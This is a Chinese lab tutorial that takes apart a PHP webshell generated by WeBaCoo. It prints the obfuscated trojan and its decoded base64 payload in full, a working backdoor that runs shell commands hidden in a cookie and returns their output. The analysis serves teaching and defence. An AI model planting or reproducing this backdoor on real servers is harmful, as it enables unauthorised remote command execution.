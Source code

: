 ```
# 输入 cat 命令，查看生成的木马代码源码
cat hello.php
```
生成的木马文件，其代码如下所示，其中的核心部分为：

```
<?php 

$b=strrev("edoced_4"."6esab");

eval($b(str_replace(" ","","a W Y o a X N z Z X Q o J F 9 D T 0 9 L S U V b J 2 N t J 1 0 p K X t v Y l 9 z d G F y d C g p O 3 N 5 c 3 R l b S h i Y X N l N j R f Z G V j b 2 R l K C R f Q 0 9 P S 0 l F W y d j b S d d K S 4 n I D I + J j E n K T t z Z X R j b 2 9 r a W U o J F 9 D T 0 9 L S U V b J 2 N u J 1 0 s J F 9 D T 0 9 L S U V b J 2 N w J 1 0 u Y m F z Z T Y 0 X 2 V u Y 2 9 k Z S h v Y l 9 n Z X R f Y 2 9 u d G V u d H M o K S k u J F 9 D T 0 9 L S U V b J 2 N w J 1 0 p O 2 9 i X 2 V u Z F 9 j b G V h b i g p O 3 0 = ")));

?>
```
> Base64 编码是一种 “防君子不防小人” 的编码方式。广泛应用于 MIME 协议，作为电子邮件的传输编码，生成的编码可逆，后一两位可能有“=”，生成的编码都是 ascii 字符。

其中第一行代码的 `strrev()` 函数的作用是将字符串反转，并将反转后的字符串变量赋值给 `$b`，即：

```
# 经过函数 strrev() 处理后得到的代码
$b = "base64_decode";
```
对于下面的经过 `base64` 加密过的字符串，并且每个字符之间混夹着一个空格，我们可以使用 `Python` 对字符串进行还原，显现出其真正的代码面目，加深对木马源码的理解（**注意：下面将代码反解的过程，不用在实验楼环境中操作，这里只是为了让同学们能够清晰地看到，由 WeBaCoo 创建的 PHP 木马的原本真实源码**）：


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/ff207c4ac994ae597a753f238bd6b2de/1481618443849.png-wm)

首先先进行去掉空白空格的操作，得到经过 Base64 加密杂乱无序的字符串：

```
# 替换掉其中的空格
s = s.replace(' ', '')

# 得到经过 Base64 加密过的代码字符串
aWYoaXNzZXQoJF9DT09LSUVbJ2NtJ10pKXtvYl9zdGFydCgpO3N5c3RlbShiYXNlNjRfZGVjb2RlKCRfQ09PS0lFWydjbSddKS4nIDI+JjEnKTtzZXRjb29raWUoJF9DT09LSUVbJ2NuJ10sJF9DT09LSUVbJ2NwJ10uYmFzZTY0X2VuY29kZShvYl9nZXRfY29udGVudHMoKSkuJF9DT09LSUVbJ2NwJ10pO29iX2VuZF9jbGVhbigpO30=

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/ff207c4ac994ae597a753f238bd6b2de/1481618755418.png-wm)

引用 `Base64` 模块进行解密，得到攻击者的最初意图代码。由解密出来的代码，可以明显的看出，代码第一步先判断 Cookie 是否设置。这里我们再回顾下 WeBaCoo 是什么原理介绍部分。其中有如下这一句话，文档中指出了 Shell 命令编码后，隐藏在 Cookie 头中：

> WeBaCoo 创建 PHP 木马程序，使用 HTTP 响应头传送命令结果，Shell 命令会由 Base64 编码后，隐藏在 Cookie 头中。

而代码中 `2>&1` 的意思是：

> 对于 & 1 更准确的说应该是文件描述符 1，而 1 一般代表的就是 STDOUT_FILENO，实际上这个操作就是一个 dup2（2） 调用。他标准输出到 all_result，然后复制标准输出到文件描述符 2（STDERR_FILENO），其后果就是文件描述符1和2指向同一个文件表项，也可以说错误的输出被合并了。
